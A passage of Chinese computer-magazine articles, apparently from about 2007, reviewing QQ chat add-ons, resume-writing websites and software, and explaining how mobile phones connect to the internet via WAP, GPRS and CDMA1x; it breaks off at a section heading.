第四步：下载花窗完成后，花窗会以一个文件的形式保存到你的电脑上。然后我们如果想用这个新下载的花窗进行视频聊天或拍摄大头贴的话，就要首先单击“导入花窗”按钮，然后就会出现一个对话框。选中下载的花窗文件，单击“打开”按钮，花窗就成功导入了。想要使用此花窗的话，我们再单击右侧窗口中的该花窗就可以进行下一步如上所述的操作，进行视频聊天或拍摄大头贴了。

此外，通过单击右侧窗口左下角的按钮，我们可以将“拍拍看”设置为“压缩模式”，于是左边的带有预览效果的窗口就消失了，这样的设置在进行视频聊天的时候非常适用，还能节省空间。

以上就是关于这款软件使用方法的大体情况介绍，它还具有强大的视频聊天工具支持功能。应该说，它支持所有的视频聊天功能，QQ、UC、泡泡、MSN、雅虎通、ICQ、E话通等都没有问题。可爱的卡通人物、个性的签名、好玩的动态图都能嵌入你的视频，真是超凡的享受。

#### 三、懒人有懒招——QQ语音聊天王2007

- 软件大小：1286 KB
- 软件类别：国产软件/共享版
- 软件语言：简体中文
- 运行环境：Windows 9x/NT/2000/XP/2003

推荐感言：有了它，再小的孩子也能聊天

下载链接：http://www.skycn.com/soft/25614.html

软件简介：用QQ聊天的时候，你是否经历过由于键入的语句文字过多，而感到十分辛苦呢？当然，我们可以选择语音聊天，但是语音聊天的效果往往与网速直接相关。况且有时候对于那些没见过面的网友，我们也不愿意暴露自己的声音。那应该如何是好呢？难道我们就只能这样忍受吗？

还是不要忍了！因为我们完全可以做到通过语音文字间的转换，实现用说话也可以文字聊天，这样你就不用担心手指酸累了，动动嘴就能代替。如果使用键盘打字不熟悉的朋友用了这款软件，一定会更加轻松，一样实现他们聊天的梦想。那么这款软件如何使用呢？

### 第一步：软件下载安装。

这款软件如果下载成功后直接使用，在打开软件时会出现“OLE error 8004503A”的错误提示。因此，我们首先要下载两个语音引擎包，有了它们的支持，我们就可以用嘴“键入”中文汉字了。这两个语音引擎包为微软SDK语音引擎包和SDK语音引擎语言包，用户可以分别在以下的两个地址下载使用：
http://download.microsoft.com/download/speechSDK/SDK/5.1/WXP/EN-US/speechsdk51.exe
http://download.microsoft.com/download/speechSDK/SDK/5.1/WXP/EN-US/speechsdk51LangPack.exe

下载完成后，我们就可以在相应的文件夹内找到相应的两个文件，Speechsdk51是SDK，Speechsdk51LangPack是SDK语言包，我们必须先解压安装SDK，然后再解压安装SDK语言包，只有这样“QQ语音聊天王”才能够支持中文汉字，实现我们用嘴也能“键入”中文汉字的目的。

下面我们就要进行解压，选定“speechsdk51.exe”文件，双击后就会出现解压文件窗口。在编辑框中输入解压位置“C:\speechsdk51”，然后单击“unzip”按钮开始解压文件，解压成功后，单击“确定”关闭窗口。

接下来再进行speechsdk51LangPack的解压，双击文件图标后，在解压文件窗口的编辑框中键入解压位置“C:\speechsdk51LangPack”。单击“unzip”按钮开始解压，解压成功，按“确定”关闭窗口。

刚刚我们只是进行了两个语言引擎包的解压缩，下面就要开始安装了：打开C盘目录下的“speechsdk51”文件夹，找到“Setup.exe”文件，选定该文件进行双击安装，依次单击“Next”→“I accept...”→“Next”→“Next”→“Install”→“Finish”选项就可以了。再打开“C:\speechsdk51LangPack”文件夹，双击“Setup.exe”文件安装，仍然是按照单击“Next”→“I accept...”→“Next”→“Next”→“Install”→“Finish”的顺序操作，搞定！

但是这里要提醒用户朋友们的是，我们在对刚才两个解压后的文件进行安装的时候，不能颠倒安装的顺序。也就是说，我们一定要先安装SDK后，再安装SDK语言包，这样才能正常使用。

单击“我的电脑”中的“控制面板”选项，双击“语音”图标，在打开的“语音属性窗口中”，在“语言（L）”下面的选择框中选择“Microsoft Simplified Chinese Recognizer v5.1”，单击“确定”按钮关闭窗口。

### 第二步：语音训练。

在进行文字的输入之前，为了使软件能够正常使用，更好地识别你的声音，提高语音输入识别率，我们在首次使用该软件之前一定要进行语音训练。单击“语音聊天王”主界面的“文件”菜单（图3），选择“语音训练向导”，于是就会出现一个对话框，单击“OK”按钮，就可以进行录音训练了。



系统的语音训练可以针对不同的文段进行，可以在弹出的对话框中选择你所训练的文段，再单击“下一步”，训练就开始了。这时候你需要确认你的房间环境比较安静，话筒可用，以及在接下来的十分钟时间内不会受到打扰。单击“下一步”开始训练。现在我们会在对话框内看到训练文字，你只需要读这些文字就可以了。要强调的是，用户在进行训练时要一个词一个词地进行，读完一个词。该词就会被自动选中，如果遇到不会读的词就单击“Skip Word”按钮，然后跳过继续读下一个词，第一段文字训练完成后系统会自动进行接下来的文段训练。

训练完成后，如果你还想继续进行更多训练的话，可以单击“More Training”按钮进行接下来的操作，或者直接单击“完成”按钮完成语音训练，马上开始语音聊天。

##### 第三步：语音聊天

光标切换到要进行输入的窗口中，然后用嘴对着麦克风讲话就可以进行简单的输入。是不是这种体验使你非常兴奋呢？如果遇到无法识别的词，我们单击该软件主界面的“控制”→“词典”，在出现的对话框中单击“确定”，就可以进行添加了。

具体的添加方法是，首先在“Word”下方键入无法识别的词语，单击“Record pronunciation”按钮，下次系统就可以对它进行识别了。

可见，“QQ语音聊天王”这款软件可以帮你实现文字聊天的功能。经过语音训练和设置后，它就可以轻松地将你的语音转换为文字，让你彻底解放双手。对于那些打字速度慢或者不愿打字的朋友来说，这无疑是一个极好的消息。动动嘴就能聊天，这样的体验是不是很酷呢？

#### 四、浪漫无限——QQ皮肤 情人节礼物

- 软件大小：696 KB
- 软件类别：网络工具/聊天工具
- 软件语言：简体中文
- 运行环境：Windows 9X/2000/XP/2003
- 推荐感言：浪漫皮肤，浪漫色彩
- 下载链接：http://www.downbank.cn/soft/2/25/2007/200702023198.htm

软件简介：这款“QQ皮肤 情人节礼物”的设计初衷是为情人节精心打造的，但是它却因为梦幻般的浪漫造型为更多的人们所喜爱，即便不是在情人节的日子里，也会有很多人使用。当然了，这款软件在众多爱美的MM那里更是颇受爱戴，它的皮肤背景色为粉红色，并以玫瑰花和爱心作为点缀，头像右侧还有情人节的祝福语，烘托出一片浪漫温馨的气氛。此外，这款软件的众多皮肤方案极富卡通色彩。不但你自己可以看到漂亮的背景，对方即便是没有安装该软件，也一样可以与你共享。再者，它还可以通过设置发送给朋友美妙的音乐，或者同步听歌等，一定会使你爱不释手。

第一步：下载软件后，单击KIP格式文件，会出现一个对话框，单击“确定”就可以将皮肤安装到QQ目录下了。安装完成后，单击“立即换肤”按钮，QQ的外观就变样儿了，可爱、浪漫又有情调，是不是很容易实现呢？当然，和朋友的聊天窗口也自然变得更美观了。

第二步：QQ进行换肤后，这还只不过是为自己带来了乐趣，与你聊天的朋友是看不到的。然而，这款软件的设置场景功能十分强大，可以让你与朋友在一个美妙的或是卡通的或是搞怪的场景下尽情地聊天，分享生活的点点滴滴。

具体的做法是：单击聊天窗口中的“选择音乐场景”按钮，就会出现一个小窗口。在这里我们可以看到共有三个标签，分别为“音乐分享”、“场景推荐”和“我的场景”，单击“场景推荐”标签，就会看到如图4的界面。



在这里，有很多可爱的场景模式，还被分成了“最新”、“热门”、“浪漫”、“搞笑”四种类别，用户可以随意地进行不同类别间的切换，以找到你情有独钟的场景，我们只要单击这个场景的图标就可以实现场景的应用了。当然，你也可以随时更换不同的场景，更换的方法有两种：其一，再次单击“选择音乐场景”按钮，切换至“场景推荐”，这时，你正在使用的场景仍然处于被选中的状态，单击“取消当前场景”选项，场景就不见了。接下来，你再选择其它的场景。其二，仍然是单击“选择音乐场景”→“场景推荐”，然后直接进行对其它场景的选择，这样，新选择的场景也一样会应用于聊天的界面。然而，值得一提的是，如果你在这里单击“我的场景”标签的话，就会发现你使用过的场景被自动添加到了这里。

因此，如果你对某些场景很钟情的话，就可以通过第二种方法来进行场景的更换。因为这样一来你还可以通过“我的场景”中的收藏来找到你常用的场景，切换时更为省时省力。

第三步：很多细心的朋友很可能已经注意到了，在切换场景的时候，不是所有的场景界面元素都是一致的，有的还增加了更多的内容，比如“播放”、“停止”、“上一首”、“后一首”、“同步听歌”、“播放列表”和“更换音乐列表”内容，这些按钮呈一字纵向排开，通过这些按钮我们还可以实现让对方“同步听歌”的享受。只要单击“同步听歌”按钮，系统就会自动为你发出请求，对方接受请求后就可以听到美妙的歌曲了。

所谓“同步听歌”，实际上就是同步收听QQ音乐，这样进行操作的话，不用费更多的精力就能给朋友放歌了，QQ音乐上有什么歌就听什么歌。如果觉得这些歌听腻了的话，还可以通过下载新的歌曲来替换原有的歌曲列表。具体的做法是：单击“更换音乐列表”按钮，在弹出的QQ音乐场景窗口中，歌曲都是以列表为单位存在的，因此我们只能将某一列表一起全部加入场景，操作成功后，音乐播放列表就相应地改变了。通过这种方法为朋友同步播放不同的歌曲，一定会让你的朋友无比开心。

当然，我们也可以为朋友播放某一指定的歌曲，单击“选择音乐场景”按钮，然后在“音乐分享”中找到想要播放的歌曲，单击“放歌”按钮就可以了。此外，我们还可以通过单击“QQ音乐搜索”选项来进行更多音乐的搜索。

这款软件界面美观，处处体现出奇妙的色彩，音乐的播放更是给朋友带来温馨的感受，尽管这是一款为情人节设计的软件，但是在普通的日子里也一样能为我们带来无尽的视觉感受和听觉享受。可爱的MM们使用它一定会陶醉于它的美妙界面，男生们如果使用的话，一定会给MM在聊天时带来无尽的惊喜和浪漫感受。

#### 五、不用摄像头也能视频——VCam 虚拟摄像头 3.1.0

- 软件大小：8980 KB
- 软件类别：国产软件/聊天工具
- 软件语言：简体中文
- 运行环境：Windows NT/2000/XP/2003
- 推荐感言：把最最精彩的留给朋友
- 下载链接：http://www.onlinedown.net/soft/47920.htm

软件简介：VCam能模拟成“真实的”摄像机，这种系统上模拟出来的摄像头可以成功地骗过大部分的视频聊天软件。而且，即便计算机上并没有摄像头设置，也照样能使用这款软件。而且，它可在任何支持摄像头的软件中使用，你可以与远方的朋友分享你电脑上面的精彩视频，也可以把自己的录像、桌面等作为聊天的视频展现给网友。

VCam虚拟摄像头能够支持多种聊天工具，如QQ、MSN、Yahoo! Messenger、Skype等都没问题。有了它，你可以与远方的朋友分享你电脑上面的精彩视频。如果你想把自己的录像、照片、动画甚至桌面等作为聊天的视频展现给网友，它都可以帮你做到。这款软件功能十分强大，对于那些酷爱录制视频的用户，一定会得到他们的钟爱，下面我们就介绍几种最基本的功能操作。

##### 第一步：将捕获的屏幕展示给朋友

首先，我们单击主界面的“查看虚拟摄像头”选项，然后出现一个“摄像机设置”窗口，在“选择摄像机”下方的下拉列表框中选择你需要使用的摄像机，单击“应用”，左边是摄像情况的预览。这时候，你还可以对亮度、对比度等元素进行调节，以及单击“格式”或“高级”按钮进行设置。比如单击“高级”按钮，就会出现一个你的视频设备的属性对话框，在这里可以进行“设定”、“特效”、“缩放”的设定。我们单击“特效”，选择“怀旧照片”特效和“丛林”相框，单击“确定”返回。单击“关闭”按钮，再在软件主界面中单击“录制视频”选项，将默认视频设备修改为你的摄像设备名称，音频输入源可以选择“麦克风”，一路单击“下一步”，就会出现一个Record窗口。然后就可以通过单击“开始录制”和“停止录制”来随心所欲地进行录像了。录制完成后系统自动生成一个AVI格式视频文件保存在“C:\Program Files\e2eSoft\VCam”文件夹中。



##### 第二步：录制视频（使用摄像头）

自己录制的文件成功保存后，单击软件主界面的“播放节目设备”按钮，然后单击“文件”，这时，在界面的底部单击“添加文件”图标，然后选中录制好的视频文件就可以了。添加成功后双击“文件”下方的该视频文件，对方就可以看到你的精彩表现。如果是添加其他的视频文件如电影、MTV等，也都可以通过这样的方式进行，单击“播放节目设备”→“文件”→“添加文件”图标，再双击该文件播放。这样来和朋友QQ视频真的很有意思，而且，用QQ视频来放电影给朋友看，你一定是第一次感受吧！

##### 第三步：虚拟视频

这款软件还可以帮你做到播放给朋友任何的视频文件，可以是你用此软件录制好的视频，也可以是其他的影视文件。首先我们来看如何播放录制好的视频文件，当然，如果要实现这一点，首先要用VCam录制你最精彩的视频表现。

#### 六、魅力动力——QQ自动聊天机器人 1.6.071009 主题版

- 软件大小：1522 KB
- 软件类别：国产软件/免费版
- 软件语言：简体中文
- 运行环境：Windows 9x/NT/2000/XP/2003
- 推荐感言：睡觉时都能聊QQ，真是太棒了！
- 下载链接：http://www.skycn.com/soft/23708.html

软件简介：“QQ自动聊天机器人”是一款很好的QQ自动聊天工具，几乎所有版本的QQ软件它都能够支持。有了它，你可以自动循环发送各种类型的语句，也可以双击“机器人”中的语句进行单句发送。它支持语句编辑功能，可自定义语句序列，以满足与各类网友的聊天需要。聊天频率也可以自行更改，最快的速度可以达到每秒发送一次。对于一些企业的客服工作，相信对千篇一律的用户发问，那些用QQ进行用户疑问解答的客服人员一定会终日用键盘键入那些同样的回答。如果用这款软件的话就省了很大的功夫了。可以将聊天的语句进行编辑保存，然后在接到提问时采用双击相应答语进行回复。当然，如果你是在对客户进行一个产品的使用情况或者满意度调查的话，它的循环语句发送方式更是令你拍案叫绝，不在电脑前也可以工作，真是太奇妙了！那么，这款软件到底如何使用呢？



### 第一步：下载软件成功后，单击安装图标，运行该软件。

打开QQ聊天窗口，将其设置为“聊天模式”，然后我们就可以利用机器人进行自动聊天了。这时候可以从“自动聊天机器人”的主界面（图6）看到，该软件将“语音设置”设计为“常用语句”、“爱情语句”、“赞美语句”、“回答语句”、“调侃语句”和“精彩外语”六种模式，方便用户进行选择。

### 第二步：选中“循环”选项，然后通过拖动“频率”右方的滚动条，调节相应的发送频率，如10秒钟等，最小可以调为1秒，最多30秒，这样一来，界面中的那些连续的语句就以每隔10秒钟发送一句了。

单击“发送”按钮，系统就可以自动进行聊天了。

### 第三步：当然，不论如何，系统自带的聊天语句不能适应所有的聊天场合，没关系，它还提供了“语句编辑”功能。

单击“语句编辑”旁边的“打开编辑框”按钮，这里仍然是分为“常用语句”、“爱情语句”等模式，单击相应的模式按钮，就会出现界面中的系统默认的语句。在这里，通过鼠标键入的方式，用户可以进行语句的任意修改和增添。编辑结束后单击“保存编辑”按钮，就可以看到界面中的语句变为了相应的编辑后的内容。然后再进行单句或循环的语句发送操作。

这款软件安装简便、体积小，没有更多花哨的内容，但是这样的一款聊天工具却以其独特的特质为广大用户带来了福音，让生活变得更加便捷。

综述：以上软件都是针对常用的QQ聊天进行辅助的，有了它们，相信会给你的聊天带来更好的体验。原来QQ聊天也是一种享受，大家千万不要错过哦！

# 让简历中介靠边站 ——求职利器大搜罗

◆文/TMG yc

> 引言：求职贵在有备无患，提前做好一切准备，成功率自然很高了，为此，特意找了几家简历网站和几款写简历的软件，希望对广大求职者有所帮助。但需切记，网站或软件都只是为大家提供一个模板，告诉你们标准的简历应该怎么写，一个最终的好简历还是需要自己精心设计的。

#### 一、求职网站篇

在现在网络如此发展的今天，我们当然要充分利用网络资源来丰富自己的简历。网上的信息量大，信息更新速度快，只要你肯去找，总能找到使自己简历与众不同的地方。下面，我特意为大家搜寻了三大简历资源网站，资源非常多，但关键也是看大家怎么去使用了。

使用方法：打开以上链接，定位到中国电子简历网→求职助手→简历资源版块，可以看见简历资源很多，各式各样的都有。比如你是一个刚大学毕业的求职者，那么就可以选择毕业生模板，看看简历格式，试着自己填写；

#### 二、必得人才网

链接地址:http://resume.bidejob.com/
简历写作技巧:http://resume.bidejob.com/gerenjianli/
简历封面下载:http://resume.bidejob.com/gerenjianli/
学校校徽下载:http://resume.bidejob.com/gerenjianli/

网站特色：资源丰富，种类齐全（图2），提供各专业毕业生模板、中英文模板范例下载。网站的个人简历模板搜索、大学校徽搜索等功能可以让你迅速地在海量信息中找到你所需要的东西，而个人简历技巧、求职就业指导等能使你在求职路上更胜人一筹。

网站使用：必得人才网是百度人才旗下的老牌网站，内容丰富多样，光是简历模板就够你浏览一阵子了。当然，在众多的模板中想要找到自己想要的那款就不是那么容易的事了。不过还好，网站提供了模板搜索功能。但笔者做过测试，发现搜索功能不是很强大，当然，一般的要求还是能满足的。

#### 三、E职独秀

链接地址：http://www.ejobshow.com/user_resume_templet.php

网站特色：网站提供中英文模板（范文）、个人电子简历（样本），使你在了解标准简历模板的同时也能参考别人的范文，提升自己简历的吸引力。而网站的其他相关信息中也罗列了大量英文简历常用词汇、短语及简历写作技巧等，实用性高。

网站使用：E职独秀是一家比较齐全的集“招聘、人才、求职”为一体的综合性人才网站（图3）。其个人简历丰富多样，不仅可以在线看模板样式，也可查看简历范文，让自己对简历的撰写更得心应手，这个对应届毕业生以及没有简历经验的朋友帮助会很大。

而对于网上模板，可以自己复制下来再到Word里面编写，想再添加或是删减些内容，都很方便。

其实，在求职时，许多朋友只注重个人简历，而忽略了求职信。一封准备充分的求职信，不仅可以吸引招聘者的目光，还可以大大提高你的求职成功率。而E职独秀网站也提供了大量求职信的范文，以供大家参考。

对于毕业生而言，一个漂亮的简历封面也会很大程度上得到招聘者的青睐，而E职独秀提供的简历封面也挺多，适合大家去学习、参考。当然，如果有贵校的封面的话，不妨直接拿去用。

#### 二、求职软件篇

也许有的朋友会说了，网站上的资源是非常多，但要在海量的信息中找起自己想要的简历来也是一件很繁琐的事。那有没有更简单点的呢？答案是肯定的。下面就再来介绍几款求职软件，喜欢的朋友不妨一试，相信会令你事半功倍的。

##### 1. 精巧实用的“简历宝典”

- 软件大小：479 KB
- 软件性质：免费版
- 软件语言：简体中文
- 适用系统：Windows 9x/Me/NT/2000/XP/2003
- 使用级别：入门级
- 下载链接：http://www.easyresume.net/freeresume.htm

#### 软件特色：

“简历宝典”采用动态网页技术，支持直接模板编辑和自定义模板，支持图片插入，优化必备资料帮助你制作能够脱颖而出、与众不同的简历。内置大量模板，包含多种风格，当你使用了“简历宝典”之后，才会发现制作简历原来是如此的简单。

#### 软件使用：

安装软件很方便，一路单击“Next”即可。双击打开“简历宝典”，可以看到软件的预设界面（图4），上方有三个可切换的选项卡，分别为“简历写作指导”、“简历模板”、“简历软件推荐”。

打开简历写作指导，会有很多关于“简历的撰写”、“投递技巧”等方面的信息，如简历的内容与版式、写简历应该避免的问题等，如果你对这些方面还比较模糊的话，可以及时地充电。相信能帮助刚出来求职的朋友很快了解简历写作，制作出自己称心满意的简历来。

而内置的简历模板也比较齐全，双击模板或选择“打开”选项即可进行Word编辑。可以在软件下方的“中文简历”、“英文简历”和“求职信”三个选项之间切换打开相对应的模板。

打开的简历模板，可以根据模板自己添加，也可以根据软件提供的范文自己修改。最好权衡比较多种样式后自己再下笔，这样才能写出内容更加全面、考虑更加周到的简历。

#### 软件点评：

这款软件虽然功能简单，但可以完全免费使用，而且考虑得也比较周到，适合刚毕业或是没有写简历经验的求职者使用。相信大家能在“简历宝典”的“悉心指导”下很快熟悉起来，写出让招聘者满意的简历。

##### 2. 全面丰富的“轻轻松松写简历校园版2007”

- 软件大小：2260 KB
- 软件性质：免费版
- 软件语言：简体中文
- 适用系统：Windows 9x/Me/NT/2000/XP/2003
- 使用级别：毕业生
- 下载链接：http://www.easyresume.net/download/EasyresumeCampus.exe

#### 软件特色：

“轻轻松松写简历校园版 2007”专为毕业生设计，完全免费使用。软件内置数百种精美样式中英文简历、中文求职信、英文求职信和简历封面模板，只需要填写好个人资料，就可以根据模板自动生成各式风格的个人简历。“轻轻松松写简历校园版 2007”操作十分简单，上手容易，仅需四步即可生成漂亮的Word格式简历，还能有精美的封面。软件还包含人才网站、劳动法、合同范本等资料，内置简历常用英文词汇对照，是制作简历不可多得的利器之一。

#### 软件使用：

安装软件没什么特别之处，运行“轻轻松松写简历校园版”之后，需要做的是填写好个人资料，包括基本资料、教育与培训、工作经验和社会实践，填写好后点击保存个人信息（图5）。

点击“简历向导”，选择合适的模板，单击可在右侧预览，双击可根据个人资料生成相应的简历模板。

生成的模板以Word形式打开，可以直接编辑，添加、修改你的个人资料，添加照片等。在这里尽可能地完善自己的简历。

修改好了之后，可以点击软件右下角的“导出为WORD格式”生成Word文档，也可保存简历供下次使用。

当你觉得软件内置的模板太少的时候，不妨更新简历模板，在工具栏单击“在线更新”即可进入更新。当然，其实在选择模板的对话框里双击“更多模板”效果也是一样的。

软件里说的更新模板需要1～5分钟，但根据测试，更新时间会很长，大家需要耐心等待，毕竟是免费软件嘛。更新后的模板量明显增多，所以等等也是值得的。

在帮助文档中可以找到常用英文职位对照表、大量人才网站、劳动法规等实用信息，能帮助求职者更好地填写自己的简历。推荐使用！

#### 软件点评：

总的来说，这款“轻轻松松写简历校园版2007”上手非常容易，信息丰富全面，而且还完全免费，是专为毕业生打造设计的简历制作软件，初出校园的求职者不妨一试。

##### 3. 方便快捷的“绝世好简历2007双语特别版”

- 软件大小：2284 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003
- 使用级别：全级别
- 下载链接：http://www.skycn.com/soft/10880.html#download

#### 软件特色：

“绝世好简历 2007”采用的是向导式的简历填写方式，只需选好风格，填好自己的个人信息、家庭成员、工作经验等，软件就会自动生成一份合格的简历。无论是对刚毕业的求职者，还是有工作经验的求职者，软件都能够满足大家的需要。另外这个版本因为是双语版的，所以还可以编写英文简历。使用极其方便，修改非常快捷，推荐使用。

#### 软件使用：

安装好软件后，点击新建生成一份新的简历（图6），也可打开以前的简历修改。

新建之后，会出现简历风格的选择。其中需要你填写“简历标题”，在多种简历样式中选择一种你喜欢的风格，如“时尚表格型”、“优雅型”、“专业型”等等。

当然，也可以调整简历的整个布局，使自己的简历与众不同。点击“调节顺序”，在弹出的对话框中可以调整简历中各内容的位置，可以选择一个，也可以几个同时调整。

选择好后，单击“下一步”，进入“个人基本信息”填写。在这里，你需要把“基本信息”、“联系方式”、“政治面貌”、“学历”等如实填写。当然，还可以传上去自己的头像，推荐使用90×110像素的图片。

这里，还可以自己修改某个内容的标题，可操作性强。适合修改与自己不符合的选项。

选好后点击“下一步”，到“家庭成员”项的填写。在这里，可以在“成员关系”的下拉框中选择所有家庭成员。填写好各项信息之后，可选择添加项目，把成员关系添加入库，方便下次填写。也可双击库中的项目实时修改家庭成员信息。

填好之后，单击“下一步”进入“教育/培训/奖励”项的填写，这些信息，可以使招聘者更全面地了解你，当然是越详细越好了。而在“奖励”这种编辑区，可以双击打开文本编辑器，这样可以使你十分方便地输入大量的信息。

完成后单击“下一步”进入“工作经验”选项的填写，工作经验对招聘者来说具有很大的诱惑力，工作经验越丰富，就越容易被公司录用，所以得仔细填写。其中公司的性质可以在下拉框中选择。

完成后单击“下一步”就可以进入“其他项目”的填写，如果你有其他项目，如书籍出版、开发了工程之类的就可以填写，这也将会成为你简历上的一份大筹码。当然，项目名称可以自己更改。如是毕业生等没有经验和开发项目的可清空各项，直接跳过，生成的简历也不会显示。

当上一步完成后，就来到了简历的最后一步——“语言能力/求职意向”，其中包括自己会的语种、能在什么时候上班、应聘职位、期望工资等。添好之后单击右下角的“效果预览”就可以看见软件为你自动生成的完美简历了。

其中，还可以在属性栏对整篇内容、格式进行调整，如颜色的选择、简历行间距、列间距的调整。在这篇生成的简历中，也可以对不满意的地方直接进行修改。

还可以选择自己喜欢的一款个性简历封面，相信能让你的简历增色不少。

如果应聘的公司看中了你，给了你一次面试机会，当然应该写封感谢信给招聘者吧。“绝世好简历”也提供了感谢信的模板，只需自己补充完软件生成的感谢信中的“??”内容即可。

如果你习惯在Word里编辑的话，可以选择软件上面的Word图标，直接生成Word文档，但只有注册用户才可以享用。这里提供一种不用注册也能使用的方式，就是打开一个截图软件，仔细把生成的简历分屏截取下来，放到Word里面就可以去打印了。当然，前提是要非常仔细，不然会有截图痕迹的（当然也可以用Photoshop等软件处理下）。

#### 软件点评：

“绝世好简历 2007”集成多种功能，使用方便、快捷，无论是刚走出校园还是有工作经验，或需要写英文简历的人都可从中得到启发和帮助。对于注册用户，更是提供了简历群发、网上求职等功能，十分实惠。虽然有的朋友对收费软件没有好感，但是话又说回来，能用这么好的工具帮助你找到自己向往的工作，也就不在乎那么一点点注册的费用了，对吧？

##### 4. 智能简历填写“简历速填”

| 软件大小 | 638 KB |
|---|---|
| 软件性质 | 免费版 |
| 软件语言 | 简体中文 |
| 适用系统 | Windows 9x/ME/NT/2000/XP/2003 |
| 使用级别 | 全级别 |
| 下载链接 | http://www.skycn.com/soft/30273.html |

#### 软件特色：

安装软件后，会在IE右键菜单增加一个“简历速填智能填表”选项。当我们在人才网站注册填写简历资料时，只需点击右键，在弹出的菜单中选择“简历速填智能填表”，就可以智能地分析填写各项。软件使用方便，适合注册大量招聘网站的求职者。

#### 软件使用：

软件使用相当方便，在打开安装好的“简历速填”后，只需填写好个人信息，包括基本信息、教育与培训、工作经验这类注册常用的信息。

此外，软件还支持填写的简历信息以XML文件导入/导出，以便与其他简历软件共享。填写好信息后，在打开招聘网站注册时，如51job，只需单击右键，选择“简历速填智能填表”选项，便可根据你填写的信息智能分析，自动填写好个人基本信息。

#### 软件点评：

网上招聘确实是公司招聘的一大趋势，避免了求职者大范围集中和近距离接触，给招聘用人单位提供了更广阔的选择空间，也使各地的求职者有了平等的表现竞争机会。当然，大量注册人才网站的求职者一定要注意，注册时尽量选择知名网站，以免造成个人信息泄露！

#### 综述

求职的朋友老抱怨，求职是一件艰辛的事，写简历更是一件痛苦的事。但有了以上各大“利器”的帮助，相信要做出一份突出个性、与众不同的简历，也不是特别困难的事。但请记住，一份独具特色的个人简历，需要自己精心设计，投入精力和心血，也不能完全依赖制作工具。希望大家都能找到自己满意的工作！

# 随身携带的移动互联
## ——手机上网

◆文/信子

曾几何时，我们还只是用手机来打电话、发短信，彼时的手机还仅仅是一部可移动的电话，只是在很短的时间里，这一切便发生了巨大的变化。手机在外形上同之前并没有什么根本的突破，而在其功能上却发生了质的飞跃，手机已经由一个简单的通信工具演变成了一部便携式信息服务终端。当然这一切除了手机本身的硬件平台不断升级，具有更快的运算速度、更强的多媒体处理能力、更大的存储容量以及更清晰的屏幕显示外，日益快速、稳定的基于手机平台的移动互联网络是另外一个不可或缺的因素。互联网给我们的工作、生活、娱乐等许多层面都带来了深远的影响，而互联网与手机一结合，给我们带来的就是随时随地的无限沟通、无限娱乐、无限资讯……想象一下，轻触手机按键即可实时查看新闻资讯、收发邮件、网络聊天、在线游戏等，这些原本只能通过电脑上网实现的网络操作现在已然如同我们随身携带的手机所具备的拍照功能一样普通。手机上网虽然仅仅是最近几年才开始出现的新服务，但是其方便、快捷的特点已经慢慢深入人心，吸引越来越多的人加入到移动互联一族。

那么究竟什么是手机上网呢？严格地说，手机上网业务专指基于无线网络应用协议WAP（Wireless Application Protocol）标准，由移动运营商提供网络平台、服务提供商提供内容资源、向移动终端用户提供互联网内容的业务，是简化了的无线Internet。简单来讲，手机上网业务就是用户可以直接使用手机访问网站，享受各种应用。

#### 一、手机上网接入方式

2005年以后出厂的手机多数均已具备了GPRS功能，这就为我们使用手机通过移动运营商的无线网络接入互联网提供了可能性。这里我们有必要先弄清楚WAP同GPRS的关系：WAP（Wireless Application Protocol：无线网络应用协议）是在手机、因特网或其他个人数字助理机（PDA）、计算机应用之间进行通讯的开放全球标准。它是由一系列协议组成，用来标准化无线通信设备，可用于Internet访问，包括收发电子邮件、访问WAP网站上的页面等等。而GPRS（General Packet Radio Service：通用分组无线服务）是实现WAP应用的一种网络传输技术方式。形象地说，当两个用户使用手机打电话时，GPRS就相当于手机网络和通讯线路，而WAP则是用户的交谈内容。WAP只是一种GPRS应用模式，与GPRS的接入方式无关。

具体到国内两大移动运营商，中国移动和中国联通分别为各自的手机用户提供了不同的上网业务。中国移动的手机上网业务为MO-移动梦网，中国联通的手机上网业务为Uni-互动视界。

中国移动为手机上网用户提供了两种GPRS接入方式：CMWAP和CMNET。针对多数用户常常将这两种上网方式搞混淆而造成额外的费用支出，这里就特别说明这两种接入方式的差别。

两者的功能区别就是CMWAP只用于通过手机内置的WAP浏览器上WAP网站，如wap.monternet.com，通过GPRS建立连接后你所得到的一个IP地址为10.x.x.x，这个地址是一个A类地址也即俗称的内网地址，这个地址的可访问资源要受到很多限制。而CMNET主要是用于利用手机与笔记本电脑连接访问Internet的，通过把手机作为MODEM，笔记本登入CMNET利用IE浏览器访问Internet网站，如我们平时用电脑访问的网站。形象地说，CMWAP就好像是一个WAP网站组成的内部局域网，由此所产生的网络流量也都是移动网络内部的流量，成本几乎可以忽略不计，而CMNET就好比是一个广域网，使用CMNET方式接入的话得到的是一个类似202.xxx.x.x或者61.x.x.x之类的地址。这是一个C类地址。它可以自由地访问整个互联网上的任何网站。也就是说它和你的电脑上网的能力是一样的。正是这个区别造成了两者在资费上的差别。一般来说各地移动是这么收费的：CMWAP多采用10至20元不限量包月套餐的形式，而CMNET则很少有不限流量的套餐，大多数按1分钱/KB收费。

中国联通由于运营GSM和CDMA两种制式的网络，因此分别向GSM用户提供GPRS上网服务，向CDMA用户提供CDMA1x上网服务。其中基于GSM网络的上网方式同移动类似，这里不多做介绍。这里仅简要说明联通提供的CDMA1x上网服务。CDMA1x指的是CDMA2000 1x，能支持到153.6kbps的上网速率，与GPRS一样同被称为是2.5G的技术。经过测试，GPRS的平均业务速率仅可以达到20kbit/s～40kbit/s，而CDMA1X的平均业务速率则为80kbit/s～100kbit/s。

除了上述介绍的通过手机的GPRS/CDMA功能，借助于移动运营商的网络接入移动互联网的方法外，手机还可以借助于手机数据线或者蓝牙连接电脑以共享的方式接入互联网。如果手机具备Wi-Fi（Wireless Fidelity）无线上网功能的话，那么通过公共热点或者接入无线路由同样可以实现上网功能。虽然Wi-Fi无线传输距离有限，通过其无线上网的使用范围比较小，但是网络速度却很快，普通的通过手机GPRS/CDMA上网虽然几乎不受位置地点限制，但是网络接入速度却比较慢，Wi-Fi手机得益于近似于宽带上网的优势，无论是浏览网页还是聊天、下载、收发电子邮件、游戏、欣赏网上电影，都比手机通过GPRS/CDMA上网更快捷。由于信息产业部明文规定不允许带Wi-Fi功能的手机在国内上市销售，因此国内的行货手机都不带Wi-Fi功能。但是我们仍可以在水货市场或者从国外等渠道获得带有Wi-Fi功能的手机。

#### 二、手机上网设置

